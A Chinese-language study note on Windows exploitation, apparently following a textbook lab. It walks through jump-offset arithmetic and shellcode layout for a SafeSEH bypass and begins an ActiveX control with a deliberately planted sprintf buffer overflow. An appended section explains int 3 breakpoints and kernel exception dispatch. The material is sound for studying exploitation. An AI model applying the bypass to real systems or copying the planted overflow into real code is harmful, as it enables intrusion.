目前为止我们已经确定了跳板地址和短跳转指令机器码，只要我们再确定 shellcode 起始地 址到长跳转指令之间的距离就可以对 shellcode 进行布置了。在这大家可能会有一个疑问为什么 在短跳转指令中我们是向回跳了 10 个字节而不是 8 个字节？这是因为 JMP 指令在采用相对地 址跳转的时候是以 JMP 下一条指令的地址为基准的，所以我们在回跳的时候还要将短跳转指 令的 2 个字节计算进去。 接下来我们在完成 test 函数中 strcpy 操作后中断程序，如图 11.6.6 所示，本次实验中被溢 出字符串的起始位置是 0x0013FE88，长跳转指令位于 0x0013FF58 处，所以我们需要回跳 213 个字节（包含长跳转指令的 5 个字节），使用 E92BFFFFFF（跳转 0xFFFFFF2B 个字节）填充 长跳位置。 


所有的技术难点都已经被扫除，我们部署 shellcode 如下：在 shellcode 开始部分为弹出 “failwest”对话框的机器码，然后是 0x90 填充，接着为长跳转指令，再跟着 0x90 填充，后 为短跳转指令和跳板指令，整个布局如图 11.6.7 所示。 


由于 0x00290B0B 处不能下断点，所以我们直接看运行结果来判断溢出是否成功。用设计 好的 shellcode 替换测试用的 0x90 串，去掉__asm int 3 重新编译运行程序。熟悉、可爱、活泼…… 的对话框是不是又出现了？

### 利用Adobe Flash Player ActiveX控件绕过SafeSEH 

其实这种方法就是利用未启用 SafeSEH 模块绕过 SafeSEH 的浏览器版。Flash Player ActiveX 在 9.2.124 之前的版本不支持 SafeSEH，所以如果我们能够在这个控件中找到合适的跳 板地址，就完全可以绕过 SafeSEH。 利用浏览器演示如何利用 Adobe Flash Player ActiveX 控件绕过 SafeSEH 需要三方面的支持：

- （1）具有溢出漏洞的 ActiveX 控件。 
- （2）未启用 SafeSEH 的 Flash Player ActiveX 控件。 
- （3）可以触发 ActiveX 控件中溢出漏洞的 POC 页面。 

Falsh控件大家到[Adobe官方网上](https://helpx.adobe.com/cn/flash-player/kb/archived-flash-player-versions.html)下载即可，只需要注意不要下载9.2.124以后的版本即可。

首先，我们使用 Visual Studio 2008 建立一个基于 MFC 的 ActiveX 控件，如图 11.7.1 所示


建立好控件工程后，我们通过类视图中的“VulnerAX_SEHLib→_DVulnerAX→Add→Add Method”选项添加一个可以在 Web 页面中调用的接口函数。函数返回类型选择 void，函数名 称为 test，参数类型为 BSTR，参数名称为 str。如图 11.7.2 所示。 


函数添加好后，我们就要在这个函数里添加带有溢出漏洞的代码。代码很简单，在函数里 边申请 100 个字节的空间，然后向这个空间里复制字符串，当复制的字符串超度超过 100 个字 节时就会发生溢出，具体代码如下所示。 

```
void CVulnerAXCtrl::test(LPCTSTR str) {  
	printf("aaaa");  //定位该函数的标记    
	char dest[100];    
	sprintf(dest,"%s",str);  

}
```

未完..


## 附章 Intel x86平台上 Windows 的异常处理流程
https://www.cnblogs.com/xuanyuan/p/3998408.html

### 各种调试器中设置断点的工作原理。

无论使用VC++中的F9下断点也好，还是使用WinDbg中的bp下断点也好，也包括OllyDbg使用F2下断点，它们的工作原理都是一样的：使用了int 3。具体怎么做的呢？我们以VC++为例，当我们将光标定位到源代码的一行，按下F9后，VC++就会记下位置，随即我们使用F5启动调试程序后，VC++将会把下断点位置的机器指定第一个字节先保存起来，然后改为0xCC，这样，当程序执行到这里时，将触发到调试器，调试器然后把这个地址处的值改回保存的值，这样程序就可以往下执行，从而达到了下断的目的而又不改变程序原来的指令。

### Windows异常处理机制。

Intel CPU 内部有一个 48 位的 IDTR 寄存器。在保护模式下，它指向一个具有 8*256 项的一张表 IDT 即中断描述符表。IDT定义了当每个中断出现时，CPU将要执行的处理函数 ISR 即中断服务程序。

对于 int 3，当CPU执行它时将自动从 IDT 中取出向量号为3的ISR来执行。在Windows平台上，操作系统在这个表的3号向量ISR填充为_KiTrap03()。该函数做一些简单信息保存后调用 nt!CommonDispatchException ，该函数再调用nt!KiDispatchException()进行异常的分发过程。

nt!CommonDispatchException()是Windows NT 系列操作系统中 Ring0 级异常分发的核心枢纽。关于这个函数的详细信息可以看操张银奎的《软件调试》或windows kernel。

nt!CommonDispatchException主要完成两件事：
- 先把异常消息发送给调试子系统，等待调试子系统的处理。如果当前进程没有处于调试状态，或者调试子系统没有对异常进行处理，那么将进行第二步。
- 提交给Ring3的ntdl!KiUserExceptionDispatcher()，用于向量化异常处理和结构化异常处理。

对于一个处于调试状态的进程来说，异常发生时首先得到通知的是调试器，如果调试器没有处理异常，那么将进行第2步，比如通过结构化异常处理进入你的try_except处理分支。

### int 3 断点完整过程

一个 int 3 断点中断到调试器的完整过程如下：

- 第一步，CPU执行 int 3 时，将通过 IDTR 寄存器从中断描述符表中获取对应的中断服务程序ISR，也就是 nt!_KiTrap03()，这一点是在CPU硬件级别完成的。
- 第二步，nt!_KiTrap03() 按照 nt!CommonExceptionDispatch() -> nt!KiDispatchException() -> nt!DbgkForwardException() 的路线进入公共的调试消息发送例程：nt!DbgkpSendApiMessage()。
- 第三步，公共调试消息发送程序 nt!DbgkpSendApiMessage() 首先将除自身外其他所有线程冻结。然后调用 nt!DbgkpQueueMessage() 开始消息投递，通过自身 EPROCESS 找到 DEBUG_OBJECT, 在等待互斥体 Mutex 后，向消息队列 EventList 插入一个新的调试消息。然后把DEBUG_OBJECT中的EventsPresent事件置为有信号状态，以此来通知调试器：现在有新的调试消息产生，快来读取吧。完成这个动作后，便开始等待消息中的ContinueEvent事件，从而整个进程停止运行。
- 第4步:当调试器得到通知后，也就是EventsPresent事件变有信号状态后，便沿着kernel32!WaitForDebugEvent()--->ntdll!DbgUiWaitStateChange()--->nt!NtWaitForDebugEvent()进入Ring0，从DEBUG_OBJECT的消息链中提取出调试消息后原路返回到Ring3。

- 回到Ring3后，调试器交互界面便开始等待我们的操作。这个时候我们的程序看到的现象就是中断到了调试器。直到我们继续运行程序（比如F5(VC++/WinDbg)或者F9(OllyDbg)）,调试器才开始进行调用kernel32!ContinueDebugEvent()一路进入内核把调试消息消息的ContinueEvent置为有信号，从而“解放”被中断的进程。

总体来看，DEBUG_OBJECT是连接被调试进程和调试器的核心数据结构。当调试器使用kernel32!DebugActiveProcess()时将会产生一个DEBUG_OBJECT内核对象，将句柄保存在自己线程的DbgSsReserved[1]中，把地址保存到被调试进程的EPROCESS中。同时将被调试进程的PEB中的BeingDebugged字段标示为TRUE。

